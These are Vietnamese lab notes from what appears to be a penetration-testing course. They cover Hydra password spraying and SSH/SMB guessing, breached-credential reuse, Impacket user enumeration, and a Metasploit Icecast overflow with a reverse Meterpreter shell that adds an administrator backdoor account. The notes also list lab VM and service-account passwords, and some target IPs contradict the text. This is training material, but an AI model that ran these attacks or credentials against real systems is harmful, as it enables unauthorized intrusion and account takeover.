

```txt
Password Unrar: 4yRu#c@7#zk9*F


SEC560 Slingshot Linux (I01): sec560/sec560
SEC560 Windows 10 (I01): sec560/Sec@560/1234@abcd
PC02: Draco Malfoy/<guessing my password>
<!-- SVC_SQLService2 / ^Cakemaker -->
ParrotSec6.0: root/toor
```



# Lab 2.1. Password Guessing

## Mục tiêu

- Sử dụng Hydra để thực hiện tấn công đoán mật khẩu nhắm vào SMB trên mục tiêu Windows.

- Sử dụng Hydra để thực hiện tấn công dò mật khẩu nhắm vào hệ thống SMB trên máy chủ Windows.

- Sử dụng Hydra để thực hiện tấn công đoán mật khẩu nhằm vào một dịch vụ SSH.

## Thiết lập phòng thí nghiệm.

Máy ảo được sử dụng:

- Slingshot Linux.

Bạn có thể ping địa chỉ 10.130.10.10 từ máy ảo Slingshot Linux:

Yêu cầu

```bash
ping -c 4 10.130.10.10
```

Kết quả dự kiến



## Hướng dẫn thực hành từng bước

Bây giờ chúng ta sẽ tiến hành bài thực hành đoán mật khẩu trên hai máy mục tiêu:

- `10.130.10.10`: Một máy chủ web Linux.

- `10.130.10.4`: Bộ điều khiển miền Windows.

Giả sử chúng ta được thông báo rằng tổ chức mục tiêu có chính sách mật khẩu yêu cầu tất cả mật khẩu phải có độ dài từ tám ký tự trở lên và đáp ứng 3 trong 4 tiêu chí sau:

- Con số.

- Chữ hoa.

- chữ thường.

- Ký tự đặc biệt.

Đây là một chính sách rất tiêu chuẩn.

Đó là kịch bản của chúng ta. Hãy cùng nhau tấn công nó.

### 1. Password Spray

Chúng ta hãy thử phương pháp "thử mật khẩu ngẫu nhiên", bằng cách chọn một mật khẩu và nhiều tên người dùng khác nhau. Đây là một kỹ thuật tốt khi bạn có một danh sách lớn các tài khoản người dùng và cần phải cẩn thận với các chính sách đăng nhập có thể khóa tài khoản sau quá nhiều lần đoán sai mật khẩu.

Ngoài ra, trong quá trình kiểm thử xâm nhập, tên người dùng sẽ không được cung cấp cho bạn một cách dễ dàng.

Giả sử chúng ta đã biết định dạng từ giai đoạn trinh sát, và chúng ta đã xác định định dạng tên người dùng là chữ cái đầu tiên của tên theo sau là họ (chúng ta sẽ gọi đây là "flast"). Vì vậy, Walt Disney sẽ có tài khoản đó `wdisney`. Chúng ta chưa biết bất kỳ tài khoản hợp lệ nào vào thời điểm này. Điều chúng ta cần làm là đoán.

Một cá nhân nào đó đã khéo léo trích xuất danh sách tên từ Facebook và sử dụng danh sách đó để tạo ra một danh sách tên ở định dạng "flast".

Chúng tôi đã cung cấp 100 tên người dùng hàng đầu từ danh sách đó `/opt/passwords/facebook-f.last-100.txt` (Danh sách đầy đủ có thể được tìm thấy trên skullsecurity.org ). Hãy cùng xem 20 tên người dùng đầu tiên trong danh sách.

Yêu cầu:

```bash
head -n 20 /opt/passwords/facebook-f.last-100.txt
```

Kết quả dự kiến:




Như bạn thấy, Smith là một họ rất phổ biến. Chúng ta sẽ sử dụng danh sách này để thử đoán mật khẩu ban đầu, kết hợp với một số mật khẩu yếu (dễ đoán) phổ biến.

Hãy sử dụng danh sách này với mật khẩu thông dụng, định dạng SeasonYear (Mùa năm). Hãy nhớ rằng, Hiboxy là một công ty Bắc Mỹ, vì vậy hãy sử dụng mùa hiện tại (Xuân, Hè, Thu, Đông) và năm hiện tại. Ví dụ, nếu hiện tại là tháng Hai năm 2022, bạn sẽ sử dụng mật khẩu `Winter2022`. Nếu cách đó không hiệu quả, hãy thử mùa tiếp theo (có thể việc xoay vòng 90 ngày yêu cầu thay đổi) cũng như mùa trước đó (người dùng có thể chưa cần xoay vòng).

Hãy xem chúng ta tìm thấy gì nào!

> Ghi chú
>
> Lưu ý: Mật khẩu ở đây được tạo tự động bằng chương trình, vì vậy mật khẩu thực tế sẽ khác nhau tùy thuộc vào thời điểm bạn tham gia lớp học và thời điểm cơ sở hạ tầng được xây dựng. Chúng tôi sẽ sử dụng ký hiệu giữ chỗ SEASONYEAR thay cho mật khẩu thật.

Hãy sử dụng Hydra cho việc phun mật khẩu này (nhớ thay thế `SEASONYEAR` bằng mùa hiện tại ở bán cầu bắc và năm hiện tại).

Chúng tôi sẽ sử dụng các phương án sau:

- `-L /opt/passwords/facebook-f.last-100.txt` Sử dụng danh sách tên người dùng.
- `-p SEASONYEAR` Hãy sử dụng mật khẩu SeasonYear chính xác hiện tại (ví dụ: "Spring2022")
- `-m workgroup:{hiboxy}` Chúng ta đang kết nối đến bộ điều khiển miền và cần chỉ định miền (lưu ý: bạn cần có {}),
- `10.130.10.4` Địa chỉ IP của bộ điều khiển miền (tìm thấy bằng cách quét)
- `smb2` Giao thức

Vui lòng thay thế `SEASONYEAR` trong lệnh sau bằng mùa và năm hiện tại ở bán cầu bắc, ví dụ như `Spring2024` (do mật khẩu sẽ được setup khi mà người học mua nên cần phải chỉnh thành năm đúng người dùng mua).

```bash
hydra -L /opt/passwords/facebook-f.last-100.txt -p Spring2024 -m workgroup:{hiboxy} 10.130.10.10 smb2
```

Kết quả dự kiến:



Đã tìm thấy mật khẩu cho `alee`.

Nhân tiện, bạn có thể tìm thấy người dùng này bằng cách xem trang giới thiệu của trang web chính!

Trong thực tế, chúng ta sẽ đợi cho đến khi khoảng thời gian quan sát dài nhất kết thúc trước khi thử đoán mật khẩu khác. Nếu chúng ta làm quá nhanh, chúng ta có nguy cơ khóa tài khoản người dùng và gây ra từ chối dịch vụ! Tuy nhiên, đây là môi trường thử nghiệm, và chúng ta đã tắt cài đặt này để quá trình diễn ra nhanh hơn.

Hãy thử thêm một vài lựa chọn khác nữa:

- Mùa giải tới: 

    ```bash
    hydra -L /opt/passwords/facebook-f.last-100.txt -p Summer2024 -m workgroup:{hiboxy} 10.130.10.10 smb2
    ````

    

- Mùa giải trước:

    ```bash
    hydra -L /opt/passwords/facebook-f.last-100.txt -p  Winter2023 -m workgroup:{hiboxy} 10.130.10.10 smb2
    ```

    

- Mùa này được thêm `!` vào cuối:

    ```bash
    hydra -L /opt/passwords/facebook-f.last-100.txt -p  Spring2024! -m workgroup:{hiboxy} 10.130.10.10 smb2
    ```

    

- Mùa tiếp theo với chữ `!` vào cuối:

    ```bash
    hydra -L /opt/passwords/facebook-f.last-100.txt -p  Summer2024! -m workgroup:{hiboxy} 10.130.10.10 smb2
    ```

    

- Mùa trước được thêm `!` vào cuối:

    ```bash
    hydra -L /opt/passwords/facebook-f.last-100.txt -p  Winter2023! -m workgroup:{hiboxy} 10.130.10.10 smb2
    ```

    

Bạn đáng lẽ phải tìm thấy những người dùng và mật khẩu này.

|Tên người dùng|Định dạng mật khẩu|
|--|--|
|`alee`|`Spring2024`|
|`Janerson`|`Summer2024`|
|`ssmith`|`Summer2024!`|
|`jlopez`|`Winter2023!`|

### 2. The dictionary

Danh sách mật khẩu dùng để đoán sẽ ngắn hơn nhiều so với danh sách mật khẩu dùng để tấn công (chúng ta sẽ thảo luận về tấn công sau trong khóa học này). Việc đoán mật khẩu yêu cầu chúng ta tương tác với một dịch vụ từ xa, điều này sẽ chậm hơn. Ngoài ra, chúng ta không muốn thao tác quá nhanh để tránh gây ra tấn công từ chối dịch vụ. Thêm vào đó, các cuộc tấn công mật khẩu trực tuyến có thể dẫn đến việc bị khóa tài khoản, vì vậy chúng ta cần phải cẩn thận. Chúng tôi đã vô hiệu hóa tính năng khóa tài khoản để bạn (và các sinh viên khác) không gây ra sự cố với phòng thí nghiệm.

Để đơn giản hóa mọi việc, chúng ta sẽ sử dụng một danh sách mật khẩu rất đơn giản bao gồm mùa và năm, cũng như Mật khẩu 1. Hãy cùng xem nội dung của tệp mà chúng ta sẽ sử dụng cho lần đoán ban đầu.

```bash
cat /opt/passwords/simple.txt
```



Hãy đếm số dòng bằng cách sử dụng `wc -l`.

```bash
wc -l /opt/passwords/simple.txt
```



Chúng ta đã có sẵn danh sách mật khẩu đơn giản rồi. Bắt đầu đoán thôi!

### 3. Password Guessing (SSH)

Với danh sách mật khẩu tùy chỉnh trong tay, giờ đây chúng ta có thể cấu hình Hydra cho cuộc tấn công đoán mật khẩu đầu tiên. Chúng ta biết một trong những tên quản trị viên Linux là Bruce Green, vì vậy chúng ta sẽ sử dụng tên này bgreenđể đoán mật khẩu.

Chạy Hydra với các thiết lập sau:


- Tên người dùng `bgreen`.

- Hãy sử dụng danh sách mật khẩu mà chúng ta vừa tạo.

- Mục tiêu đơn lẻ `10.130.10.10`.

- Giao thức là SSH.

```bash
hydra -l bgreen -P /opt/passwords/simple.txt 10.130.10.10 ssh
```



Hãy chú ý đến dòng sau trong kết quả đầu ra.

```bash
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
```

Hydra cảnh báo chúng ta rằng SSH có thể giới hạn tốc độ và đề xuất sử dụng 4 luồng thay vì 16 luồng mặc định. Hydra vẫn sử dụng giá trị mặc định để quét.

### 4. Verifying Access

Giờ chúng ta đã có tài khoản này, hãy sử dụng Hydra để xem liệu chúng ta có thể sử dụng thông tin đăng nhập này trên bất kỳ hệ thống Windows nào không.

Trước tiên, hãy lấy danh sách các hệ thống đang lắng nghe trên cổng 445 (SMB). Chúng ta sẽ chạy Nmap chỉ nhắm mục tiêu vào cổng 445 và lưu kết quả vào /tmp.

```bash
nmap -n -Pn -p 445 --open -oA /tmp/smb 10.130.10.0/24
```

- `nmap` : công cụ quét mạng/port.

- `-n` : không DNS resolve (không đổi IP → tên máy). Quét nhanh hơn, ít “ồn” hơn.

- `-Pn` : coi như host luôn online, không ping/không discovery trước → Hữu ích khi ICMP bị chặn. Nhược: sẽ quét cả host "chết" nên có thể chậm hơn.

- `-p 445` : chỉ quét cổng 445 (SMB).

- `--open` : chỉ hiển thị host có port mở (open) thôi.

- `-oA /tmp/smb` : xuất kết quả theo 3 định dạng cùng lúc với prefix /tmp/smb:
    
    `/tmp/smb.nmap` (text dễ đọc).

    `/tmp/smb.gnmap` (grep-able).
    
    `/tmp/smb.xml` (xml cho tool khác).

- `10.130.10.0/24` : dải IP từ 10.130.10.1 đến 10.130.10.254 (thường vậy; .0 là network, .255 là broadcast).

Kết quả:



Sau đó, chúng ta sẽ sử dụng `grep` và `cut` để lấy danh sách các hệ thống đang lắng nghe trên cổng 445 và lưu nó vào bằng `/tmp/smbservers.txt` cách sử dụng `tee`.

```bash
grep 445/open /tmp/smb.gnmap | cut -d' ' -f 2 | tee /tmp/smbservers.txt
```



Nếu thực hành online thì kết quả sẽ như sau:

```bash
sec560@slingshot:~$ grep 445/open /tmp/smb.gnmap | cut -d' ' -f 2 | tee /tmp/smbservers.txt
10.130.10.4
10.130.10.5
10.130.10.6
10.130.10.21
10.130.10.25
10.130.10.33
10.130.10.44
10.130.10.45
```

Trong lệnh trên, chúng ta thực sự không cần sử dụng grep 445/open, nhưng điều này được khuyến nghị nếu chúng ta đã quét với nhiều hơn một cổng (như các lần quét trong Bài thực hành 1.4).

Hãy sử dụng Hydra để kiểm tra xem thông tin đăng nhập này có hợp lệ trên hệ thống Windows hay không.

```bash
hydra -m workgroup:{hiboxy} -l bgreen -p Password1 -M /tmp/smbservers.txt smb2
```



Nếu thực hành online kết quả sẽ như sau:

```bash
sec560@slingshot:~$ hydra -m workgroup:{hiboxy} -l bgreen -p Password1 -M /tmp/smbservers.txt smb2
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-22 22:22:22
[DATA] max 1 task per 8 servers, overall 8 tasks, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking smb2://(8 targets):445/workgroup:{hiboxy}
[445][smb2] host: 10.130.10.25   login: bgreen   password: Password1
[445][smb2] host: 10.130.10.4   login: bgreen   password: Password1
[445][smb2] host: 10.130.10.5   login: bgreen   password: Password1
[445][smb2] host: 10.130.10.6   login: bgreen   password: Password1
[445][smb2] host: 10.130.10.21   login: bgreen   password: Password1
[445][smb2] host: 10.130.10.33   login: bgreen   password: Password1
[445][smb2] host: 10.130.10.44   login: bgreen   password: Password1
[445][smb2] host: 10.130.10.45   login: bgreen   password: Password1
8 of 8 targets successfully completed, 8 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-02-22 22:22:22
```

Tại sao có vẻ như tài khoản này có quyền truy cập vào tất cả các hệ thống Windows này? Hãy nhớ rằng, tất cả những gì chúng ta đang làm là xác định xem thông tin đăng nhập tài khoản miền có hợp lệ hay không. Việc kiểm tra này KHÔNG kiểm tra xem người dùng có quyền quản trị đối với các máy tính từ xa này hay không. Để thực hiện loại kiểm tra này, chúng ta cần sử dụng một công cụ, chẳng hạn như Find-LocalAdminAccesstừ PowerSploit .

### 5. Breached Credentials (thông tin đăng nhập bị rò rỉ)

Như đã thảo luận trước đó trong khóa học, chúng ta thường tìm kiếm thông tin đăng nhập bị đánh cắp trong giai đoạn trinh sát. Chúng tôi đã cung cấp kết quả từ một cuộc tìm kiếm (mô phỏng) các thông tin đăng nhập đó. Hãy cùng xem danh sách tại địa chỉ này `/opt/passwords/hiboxy-breach.txt`.

```bash
cat /opt/passwords/hiboxy-breach.txt
```



Tên người dùng và mật khẩu được phân tách bằng dấu hai chấm (:) để chúng ta có thể sử dụng chúng với Hydra. Hãy thử sử dụng các mật khẩu này với Hydra để xem mật khẩu nào hợp lệ.

Sử dụng `-C` tùy chọn này với Hydra để kiểm tra thông tin đăng nhập đã chỉ định. Nó sẽ chỉ thử các tổ hợp đã được chỉ định.

```bash
hydra -C /opt/passwords/hiboxy-breach.txt 10.130.10.10 -m workgroup:{hiboxy} smb2
```

- `hydra`: Công cụ tự động thử đăng nhập nhiều lần với nhiều tài khoản/mật khẩu cho các dịch vụ mạng (SSH, FTP, SMB…).

- `-C /opt/passwords/hiboxy-breach.txt`: Dùng combo list (danh sách username:password) trong file hiboxy-breach.txt. Tức mỗi dòng thường có dạng: user:pass.

- `10.130.10.4`: Máy mục tiêu (IP) để thử đăng nhập.

- `-m workgroup:{hiboxy}`: -m là tham số bổ sung cho module. Với SMB, nó đang đặt workgroup/domain là hiboxy (Hydra sẽ gửi kèm thông tin workgroup khi xác thực SMB).

- `smb2`: Chỉ định dịch vụ/module SMB2 (SMB phiên bản 2), thường chạy trên TCP/445.

Kết quả: 



Chúng tôi đã phát hiện ra hai trong số các thông tin đăng nhập bị đánh cắp vẫn hoạt động trên tên miền của chúng tôi!

### 6. Password Spraying all domain users

Giờ đây, khi đã có ít nhất một thông tin đăng nhập miền hợp lệ, chúng ta có thể trích xuất danh sách đầy đủ người dùng. Chúng ta sẽ sử dụng `GetADusers.py` từ Impacket. Chúng ta sẽ thảo luận thêm về Impacket trong mục 560.4. Chúng ta cần cung cấp thông tin đăng nhập ở định dạng người dùng:mật khẩu. Chúng ta cũng cần chỉ định địa chỉ IP của bộ điều khiển miền (`-dc-ip`) và yêu cầu công cụ lấy danh sách tất cả người dùng bằng `-all`. Chúng ta sẽ hiển thị kết quả trên màn hình và lưu kết quả bằng tee.

Trước hết cập nhật gói phần mềm:

```bash
python3 -m pip install --upgrade pip
python3 -m pip install charset_normalizer
python3 -m pip install --upgrade "cffi>1.12"
```

```bash
GetADUsers.py hiboxy.com/bgreen:Password1 -dc-ip 10.130.10.10 -all | tee /tmp/adusers.txt
```



Hãy trích xuất danh sách người dùng. Nhìn vào kết quả ở trên, chúng ta cần bỏ qua 6 dòng đầu tiên rồi lấy mục đầu tiên trên mỗi dòng. Chúng ta sẽ sử dụng `tail -n +6` để bỏ qua 6 dòng đầu tiên, sau đó `cut` để lấy cột đầu tiên.

```bash
tail -n +6 /tmp/adusers.txt | cut -d ' ' -f 1 | tee /tmp/domainusers.txt
```



Danh sách người dùng:

Giờ chúng ta đã có danh sách người dùng tên miền, hãy thử tấn công bằng phương pháp `spraying password` (phun). Hãy bắt đầu với `Password1`.

```bash
hydra -L /tmp/domainusers.txt -p Password1 -m workgroup:{hiboxy} 10.130.10.10 smb2
```



Trong thực tế, bạn sẽ đợi cho đến khi cửa sổ quan sát khóa tài khoản hết hạn, rồi thử lại. Vì đây là phòng thí nghiệm đã tắt chức năng khóa tài khoản, hãy thử lại với một vài mật khẩu khác:

- `Password1!:`

    ```bash
    hydra -L /tmp/domainusers.txt -p Password1! -m workgroup:{hiboxy} 10.130.10.10 smb2
    ```

    

- `Mùa hiện tại + Năm:`

    ```bash
    hydra -L /tmp/domainusers.txt -p Spring2024 -m workgroup:{hiboxy} 10.130.10.10 smb2
    ```

    

- `Mùa tiếp theo + năm:`

    ```bash
    hydra -L /tmp/domainusers.txt -p Summer2024 -m workgroup:{hiboxy} 10.130.10.10 smb2
    ```

    

- `Mùa trước + Năm`:

    ```bash
    hydra -L /tmp/domainusers.txt -p Winter2024 -m workgroup:{hiboxy} 10.130.10.10 smb2
    hydra -L /tmp/domainusers.txt -p Winter2023 -m workgroup:{hiboxy} 10.130.10.10 smb2
    ```

    Không có kết quả.

- `Mùa hiện tại + năm + !:`

    ```bash
    hydra -L /tmp/domainusers.txt -p Spring2024! -m workgroup:{hiboxy} 10.130.10.10 smb2
    ```

    Không có kết quả.

- `Mùa tiếp theo Năm + !:`

    ```bash
    hydra -L /tmp/domainusers.txt -p Summer2024! -m workgroup:{hiboxy} 10.130.10.10 smb2
    ```

    

- `Mùa trước Năm + !:`

    ```bash
    hydra -L /tmp/domainusers.txt -p Winter2023! -m workgroup:{hiboxy} 10.130.10.10 smb2
    ```

    

Các mật khẩu bạn cần tìm được liệt kê bên dưới. Nhấp vào để mở rộng và xem tất cả các mật khẩu.


```txt
Administrator
Guest
krbtgt
alee:Spring2024
bgreen:Password1
janderson:Summer2024
ssmith:Summer2024!
jlopez: Winter2023!
SVC_SQLService2
jjohnson
mbell
jcooper:Password1
mhernandez:Password1!
antivirus
SVC_SQLService

SVC_SQLService2:^Cakemaker
```

## Phần kết luận

Trong thí nghiệm này, chúng tôi đã thực hiện một cuộc tấn công dò mật khẩu bằng cách sử dụng danh sách người dùng và một mật khẩu duy nhất. Chúng tôi cũng đã thực hiện một cuộc tấn công đoán mật khẩu vào SSH với một danh sách mật khẩu. Cuối cùng, chúng tôi đã kiểm tra các mật khẩu bị đánh cắp đối với tên miền để tìm thêm thông tin đăng nhập hợp lệ.

Khi kết hợp các kỹ thuật này, chúng vô cùng hữu ích đối với một chuyên gia kiểm thử xâm nhập vì chúng có thể cung cấp mật khẩu để truy cập vào môi trường mục tiêu. Quyền truy cập đó có thể là điểm xâm nhập ban đầu vào hệ thống mục tiêu, mà chuyên gia kiểm thử xâm nhập sau đó có thể sử dụng để đánh cắp thông tin và chuyển hướng tấn công.

# Lab 2.2. Metasploit và Meterpreter

## Mục tiêu

Trong bài thực hành này, chúng ta sẽ phân tích Meterpreter, sử dụng Metasploit để triển khai payload linh hoạt này đến một dịch vụ dễ bị tổn thương mà bạn tạm thời cài đặt trên máy tính Windows của mình. Cụ thể, chúng ta sẽ khai thác dịch vụ **Icecast (phiên bản 2.0.0)**, một máy chủ truyền phát đa phương tiện trên internet có lỗ hổng tràn bộ đệm. Payload Metasploit của chúng ta sẽ bao gồm giai đoạn `Meterpreter`, được tải thông qua `stager reverse_tcp`, thiết lập kết nối từ máy bị khai thác trở lại máy tấn công.

## Các bước thực hành trong phòng thí nghiệm

Bạn sẽ thực hiện bài thực hành này hoàn toàn trên hệ thống của riêng mình, với dịch vụ Icecast dễ bị tổn thương trên máy tính Windows của bạn sẽ bị khai thác bởi máy ảo Linux. Trên slide, chúng tôi minh họa các bước từ 1 đến 4 của bài thực hành này. Lưu ý rằng trong suốt toàn bộ bài thực hành, mỗi số bước này vẫn sẽ được áp dụng.

**Bước 1:** Cấu hình Metasploit để khai thác lỗ hổng Icecast.

**Bước 2:** Khai thác dịch vụ mục tiêu, gửi stager reverse_tcp làm payload với stage Meterpreter.

**Bước 3:** Sử dụng Meterpreter chạy bên trong không gian bộ nhớ của Icecast, chuyển hướng kết nối TCP ngược trở lại kẻ tấn công.

**Bước 4:** Tương tác với Meterpreter đang chạy bên trong tiến trình Icecast của máy bị xâm nhập.



## Thiết lập phòng thí nghiệm

Các máy ảo được sử dụng:

- Slingshot Linux.

- Windows 10.

Trong bài thực hành này, bạn sẽ tấn công máy tính Windows của mình, khiến nó chạy chương trình Meterpreter. Bạn sẽ vận hành một máy chủ dễ bị tấn công. Đối với bài thực hành này, chúng tôi khuyên bạn nên ngắt kết nối khỏi VPN.

Sau đó, trong Linux, hãy chạy lệnh sau:

```bash
ping IP_address
```

## Hướng dẫn thực hành từng bước

### 1. Metasploit trên Linux

Chúng ta sẽ chuyển sang máy ảo Linux. Bước 1 bao gồm chạy Metasploit và cấu hình nó để khai thác dịch vụ Icecast. Khởi chạy Metasploit bằng lệnh sau:

```bash
msfconsole
```

Lưu ý rằng dấu nhắc lệnh của bạn hiện là dấu nhắc bảng điều khiển Metasploit Framework (`msf6 >`). Tại dấu nhắc msf, hãy nhập các lệnh vào Metasploit một cách tương tác. Yêu cầu nó hiển thị tất cả các mô-đun khai thác mà nó có sẵn.

```bash
show exploits
```



Bạn có thể thấy có hơn 2.200 lỗ hổng bảo mật trong Metasploit!

Chúng ta sẽ khai thác lỗ hổng Icecast trên Windows. Hãy tìm kiếm lỗ hổng đó.



Bạn sẽ thấy một lỗ hổng bảo mật dành cho Windows có tên là icecast_header, với xếp hạng "great".

Bây giờ chúng ta sẽ chọn lỗ hổng. Chúng ta sẽ sử dụng lỗ hổng tràn bộ đệm tiêu đề Icecast, lỗ hổng này phù hợp với phiên bản Icecast mà chúng ta đã cài đặt:

```bash
use exploit/windows/http/icecast_header
```



Lưu ý rằng lời nhắc của chúng ta đã thay đổi và hiện bao gồm tên của lỗ hổng mà chúng ta đã chọn. Ngoài ra, bạn sẽ thấy rằng một payload đã được chọn sẵn cho chúng ta. Hãy sử dụng một payload Meterpreter khác thực hiện kết nối HTTP ngược (thay vì TCP thông thường) trở lại kẻ tấn công sau khi nó đang chạy bên trong tiến trình dễ bị tổn thương.

Đặt target thành `windows/meterpreter/reverse_http`.

```bash
set PAYLOAD windows/meterpreter/reverse_http
```



Tiếp theo, chúng ta hãy xem xét các tùy chọn liên quan đến lỗ hổng này:



Tùy chọn đầu tiên chúng ta sẽ thiết lập là RHOSTS. Đây sẽ là địa chỉ IP mà chúng ta muốn Metasploit tấn công. Chúng ta nên nhập địa chỉ IP của máy tính Windows đang chạy dịch vụ Icecast dễ bị tổn thương. Sử dụng `Ethernet0` địa chỉ IP, không phải `tun0` địa chỉ IP. Địa chỉ bạn đang tìm kiếm KHÔNG bắt đầu bằng `10.254.25X.X`.

Hãy đặt `RHOSTS` tùy chọn thành địa chỉ IP của giao diện Ethernet0 trên hệ điều hành Windows của bạn.

```bash
msf6 exploit(windows/http/icecast_header) > back
msf6 > set RHOSTS 10.130.10.25
RHOSTS => 10.130.10.25
```



Đặt giá trị `LHOST` thành địa chỉ IP của `eth0` giao diện hệ thống Linux của bạn.

```bash
msf6 > set LHOST eth0
```

Metasploit đã được cấu hình xong. Hãy cùng xem lại cấu hình Metasploit của chúng ta bằng lệnh `show options`.



Chúng tôi gần như đã sẵn sàng cho cuộc tấn công, nhưng trước tiên chúng tôi cần phải hoàn tất một số công việc chuẩn bị.

Bây giờ chúng ta cần khởi động máy chủ Icecast trên máy tính Windows của mình.

Nhấp chuột phải vào biểu tượng Icecast trên màn hình máy tính và chọn "Chạy với quyền quản trị viên" .



Khi giao diện người dùng (GUI) của Icecast xuất hiện, hãy nhấp vào nút Bắt đầu máy chủ . Trạng thái máy chủ sẽ chuyển sang màu xanh lục và hiển thị "Running".





Để đảm bảo Windows có thể kết nối đến máy Linux của chúng ta với shell Meterpreter đảo ngược mà không bị hạn chế, chúng ta cũng cần đảm bảo Windows có thể ping Linux. Trên máy Windows của bạn, tại cmd.exe , hãy chạy lệnh sau:

```bash
ping 10.130.10.128
```



Nếu lệnh ping thành công, chúng ta có thể tiếp tục. Nếu không, hãy kiểm tra lại cài đặt mạng của bạn.

### 2. Phát động cuộc tấn công

Hãy bắt đầu cuộc tấn công! Trên máy Linux của bạn, tại dấu nhắc msf, gõ `run` và nhấn Enter:

Nếu cuộc tấn công thành công, bạn sẽ thấy một thông báo trên Linux có nội dung "Meterpreter session 1 opened".



### 3. Sessions

Thông báo nhắc nhở `meterpreter >` cho bạn biết bạn đang ở trong Meterpreter. Nếu bạn muốn thực hiện các thao tác khác trong Metasploit, trước tiên bạn cần đưa phiên làm việc về chế độ nền bằng cách gõ `background` hoặc nhấn phím `CTRL+z`.

Nhập lệnh này `background` để quay lại giao diện điều khiển Metasploit.

```bash
background
# meterpreter > background
# [*] Backgrounding session 1...
# msf6 exploit(windows/http/icecast_header) > 
```

Tại `msf6` dấu nhắc lệnh, chúng ta hiện đang tương tác với Metasploit, chứ không phải với Meterpreter trên máy chủ bị xâm nhập. Hãy cùng xem xét `sessions`...



Trong trường hợp này, bạn có thể thấy phiên làm việc là `1`. Phiên của bạn có thể khác.

Việc đánh số phiên rất tiện lợi, nhưng chúng ta có thể sẽ có nhiều shell và việc nhớ các số này sẽ khó khăn. Chúng ta có thể đổi tên phiên thành một cái tên dễ nhớ hơn. Để đổi tên phiên, chúng ta cần sử dụng lệnh `use` `-n newname` và số phiên hiện tại `-i ID`.

```bash
sessions -n inecast_win10 -i 1
sessions
```



Bây giờ chúng ta hãy cùng tương tác trong phiên.


```bash
sessions -i 1
```

### 4. Meterpreter

Khi chuyển sang Bước 4 để tương tác với phiên Meterpreter, hãy cùng xem lại kiến ​​trúc của những gì chúng ta đang quan sát. Bạn đang xem phiên Meterpreter trên máy Linux chạy Metasploit. Phiên đó thực chất đang điều khiển máy Windows của bạn, với Meterpreter chạy bên trong tiến trình Icecast.

Sau khi chạy Meterpreter, chúng ta hãy cùng khám phá hệ thống một chút. Chạy lệnh sau:

```bash
sysinfo
```



Điều này cho chúng ta biết loại hệ điều hành của máy tính bị xâm nhập.

Bây giờ, hãy xác định tên người dùng của chúng ta trên ô nạn nhân:

```bash
getuid
```



Chúng ta cần sử dụng cùng tên người dùng mà bạn đã dùng để khởi chạy máy chủ Icecast vì chúng ta đang chạy từ bên trong không gian bộ nhớ của nó.

```bash
ps
```





Hãy cùng xem xét các tùy chọn mà chúng ta có với pslệnh này bằng cách xem phần trợ giúp.

```bash
ps -h
```



Hãy tìm tiến trình Icecast2 của chúng ta bằng cách sử dụng `-S`.



Hãy tìm kỹ tiến trình có tên [tên tiến trình] `Icecast2.exe`. Ghi lại số ID của tiến trình đó tại đây:

```bash
Process ID for Icecast2.exe : _____________
```

Cuối cùng, hãy cùng xem các lệnh Meterpreter mà chúng ta có sẵn:

```bash
help
```

Bây giờ chúng ta hãy cùng khám phá một số lệnh để tương tác với hệ thống tập tin. Đầu tiên, chúng ta sẽ điều hướng đến thư mục `c:\`. Lưu ý rằng trong Meterpreter, bạn phải sử dụng dấu gạch chéo (`/`) để tham chiếu đến đường dẫn thư mục hoặc sử dụng chuỗi thoát của dấu gạch chéo ngược (`\`) để chỉ ra dấu gạch chéo ngược (`\\`). Vì vậy, để chuyển đến `c:\` thư mục, vui lòng chạy lệnh:

```bash
cd c:\\
```

Lưu ý rằng trong Meterpreter, bạn cũng có thể tham chiếu đến `c:\` như `/`. Vì vậy, các lệnh cd `c:\\` và `cd /` thực hiện cùng một việc.

Tiếp theo, hãy cùng tìm hiểu xem chúng ta đang ở đâu trong cấu trúc thư mục. (Vì chúng ta vừa chuyển đến `c:\`, nên chúng ta sẽ ở đó). Lệnh cụ thể phụ thuộc vào phiên bản Meterpreter bạn đang sử dụng. Đối với một số phiên bản Meterpreter, lệnh là `pwd`. Đối với các phiên bản khác, lệnh là `getcwd`. Hãy chạy một trong hai lệnh đó. Một hoặc cả hai lệnh đều có thể hoạt động:

```bash
pwd
```



Bây giờ chúng ta hãy lấy danh sách thư mục:

```bash
ls  
```



### 5. Shell

Đôi khi, những gì chúng ta muốn thực hiện trên một mục tiêu sẽ dễ dàng hơn nếu sử dụng một trình shell đơn giản của Windows, chẳng hạn như cmd.exe, hơn là sử dụng Meterpreter. Để hỗ trợ kiểu truy cập đó, Meterpreter bao gồm lệnh shell, lệnh này thực thi cmd.exe. Bạn có thể thấy tính năng tiện lợi này bằng cách thực thi lệnh shell từ bên trong dấu nhắc của Meterpreter:

```bash
shell
```



Giờ đây bạn có thể nhập bất kỳ lệnh nào bạn muốn vào cửa sổ cmd.exe.

Chạy `hostname`.

```bash
hostname
```



Chạy `ipconfig`.

```bash
ipconfig
```



Chạy `dir`:

```bash
dir
```



Bây giờ chúng ta hãy xem xét những người dùng trên hệ thống.

```bash
net user
```



Tạo một tài khoản cửa sau có tên là `BACKDOOR`.

```bash
net user BACKDOOR Password1 /add
```



Lệnh trên tạo một người dùng với mật khẩu là Password1.

Bây giờ chúng ta hãy xác nhận xem người dùng có tồn tại hay không.

```bash
net user BACKDOOR
```



Tài khoản BACKDOOR mới là một tài khoản thông thường. Sẽ hữu ích hơn nếu nó có quyền quản trị. Hãy cấp quyền quản trị cho tài khoản này.

```bash
net localgroup administrators BACKDOOR /add
```



Bây giờ, hãy xem danh sách thành viên của nhóm quản trị viên để xác nhận xem tài khoản cửa sau có phải là quản trị viên hay không.

```bash
net localgroup administrators
```



Như chúng ta thấy, tài khoản mới của chúng ta là tài khoản quản trị viên!

Hãy xóa tài khoản này.

```bash
net user BACKDOOR /del
```



Chúng ta có thể xác nhận việc xóa bằng cách chạy `net user` lại lệnh. Vì lý do tiết kiệm không gian, kết quả đầu ra không được đưa vào đây.

Để thoát khỏi cửa sổ dòng lệnh, chỉ cần gõ `exit`, và bạn sẽ quay lại dấu nhắc lệnh `meterpreter >`:



### 6. Các tính năng khác của Meterpreter

